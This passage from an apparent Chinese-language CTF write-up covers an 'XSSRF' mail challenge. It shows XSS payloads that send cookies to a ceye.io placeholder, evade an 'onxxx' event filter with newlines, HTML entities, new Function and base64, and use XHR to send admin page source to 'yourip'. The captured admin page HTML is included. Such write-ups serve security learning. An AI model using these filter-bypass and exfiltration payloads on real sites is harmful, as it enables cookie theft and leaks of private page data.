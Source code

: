 得到第一个flag

想不通为什么这个打不到cookie。

```html
location['href']='http://your.ceye.io/3?'+document['coo'+'kie']
```

![16](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/c04001fa571d642fc483254b3897244a.png)

接下来读一下管理员页面的源码，注意到所有的事件都是`空格onxxx`这样被拦截，那么利用浏览器的特性，空格可以换成换行来绕过。同时在事件里可以用html实体编码绕过括号，eval改用用new Function绕过，在利用base64编码一下最后要执行的代码。

```html
d</textarea>'"><img src=x
onerror="new
Function&#40;atob&#40;'b3BlbignaHR0cDovL3lvdXJpcC8/Jytlc2NhcGUoZG9jdW1lbnQuYm9keS5pbm5lckhUTUwpKQ=='&#41;&#41;&#40;&#41;">
```

在自己的服务器上接收到

```html
<nav class="navbar navbar-expand-lg navbar-dark bg-dark d-flex">
  <a class="navbar-brand" href="index.php">XSSRF</a>
  <ul class="navbar-nav">
    <li class="nav-item">
      <a class="nav-link" href="sendmail.php">Send Mail</a>
    </li>
    <li class="nav-item">
      <a class="nav-link" href="mailbox.php">Mailbox</a>
    </li>
    <li class="nav-item">
      <a class="nav-link" href="sentmail.php">Sent Mail</a>
    </li>
    <li class="nav-item">
      <a class="nav-link" href="setadmin.php">Set Admin</a>
    </li>
    <li class="nav-item">
      <a class="nav-link" href="request.php">Send Request</a>
    </li>
  </ul>
  <ul class="navbar-nav ml-auto">
    <li class="nav-item">
      <span class="navbar-text">Hello, admin (Administrator)</span>
    </li>
    <li class="nav-item">
      <a class="nav-link" href="logout.php">Logout</a>
    </li>
  </ul>
</nav>
```

利用ajax搞一下setadmin.php的源码

```html
btoa("a=new XMLHttpRequest();a.open('GET','setadmin.php',false);a.send();open('http://yourip/?'+escape(a.responseText));")
然后
d</textarea>'"><img src=x
onerror="new
Function&#40;atob&#40;'结果放这里'&#41;&#41;&#40;&#41;">
```

